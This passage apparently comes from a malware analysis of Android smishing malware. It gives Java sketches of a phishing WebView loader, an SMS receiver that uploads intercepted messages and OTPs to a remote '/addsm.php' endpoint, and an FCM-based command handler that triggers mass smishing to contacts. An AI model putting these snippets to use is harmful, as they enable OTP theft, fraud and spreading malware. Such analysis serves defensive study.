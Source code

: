 Minimal loader:

```java
WebView wv = findViewById(R.id.web);
wv.getSettings().setJavaScriptEnabled(true);
wv.loadUrl(upiPage); // ex: https://<replit-app>/gate.htm
```

### Self-propagation and SMS/OTP interception
- Aggressive permissions are requested on first run:

```xml

```

- Contacts are looped to mass-send smishing SMS from the victim’s device.
- Incoming SMS are intercepted by a broadcast receiver and uploaded with metadata (sender, body, SIM slot, per-device random ID) to `/addsm.php`.

Receiver sketch:

```java
public void onReceive(Context c, Intent i){
  SmsMessage[] msgs = Telephony.Sms.Intents.getMessagesFromIntent(i);
  for (SmsMessage m: msgs){
    postForm(urlAddSms, new FormBody.Builder()
      .add("senderNum", m.getOriginatingAddress())
      .add("Message", m.getMessageBody())
      .add("Slot", String.valueOf(getSimSlot(i)))
      .add("Device rand", getOrMakeDeviceRand(c))
      .build());
  }
}
```

### Firebase Cloud Messaging (FCM) as resilient C2
- The payload registers to FCM; push messages carry a `_type` field used as a switch to trigger actions (e.g., update phishing text templates, toggle behaviours).

Example FCM payload:

```json
{
  "to": "<device_fcm_token>",
  "data": {
    "_type": "update_texts",
    "template": "New subsidy message..."
  }
}
```

Handler sketch:

```java
@Override
public void onMessageReceived(RemoteMessage msg){
  String t = msg.getData().get("_type");
  switch (t){
    case "update_texts": applyTemplate(msg.getData().get("template")); break;
    case "smish": sendSmishToContacts(); break;
    // ... more remote actions
  }
}
```
